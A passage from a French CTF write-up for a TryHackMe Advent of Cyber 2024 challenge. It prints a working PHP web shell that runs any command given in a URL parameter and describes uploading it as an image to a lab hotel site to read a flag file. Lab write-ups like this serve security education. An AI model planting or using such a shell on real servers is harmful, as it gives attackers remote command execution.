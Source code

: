 Nous allons à présent utiliser le code {% include dictionary.html word="PHP" %} fourni dans le défi pour reproduire l'attaque {% include dictionary.html word="RCE" %} observée.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

Ce code permet de créer une page web contenant un champ dans lequel nous pourrons entrer notre commande, et qui nous affichera la réponse en dessous.

Nous commençons par accéder à l'url `hxxp[://]frostypines[.]thm/admin/rooms[.]php`, là où nous avons observé la première occurrence de `shell.php`.

Grâce à l'analyse des logs, nous savons que le shell a été uploadé en tant qu'image pour illustrer une chambre à louer sur le site. Nous allons donc créer une nouvelle chambre afin de pouvoir déposer notre fichier.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-03_upload_shell.png" caption="Création d'une nouvelle chambre avec la page PHP" %}

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-03_upload_shell2.png" caption="Chambre créée" %}

Nous pouvons désormais accéder à notre shell via l'url `hxxp[://]frostypines[.]thm/[...expurgé...]/shell[.]php`

En listant les éléments présents dans le dossier actuel, nous y trouvons le fichier `flag.txt` que nous devons trouver

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-03_list.png" caption="Le fichier flag.txt est présent dans le dossier" %}

Nous pouvons lire le contenu du fichier pour conclure ce troisième jour.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-03_flag.png" caption="Le flag concluant le défi" %}

## Jour 4 : Je suis tout atomique à l'intérieur

![Atomic Red Team](https://img.shields.io/badge/Atomic%20Red%20Team-453368?logo=tryhackme)
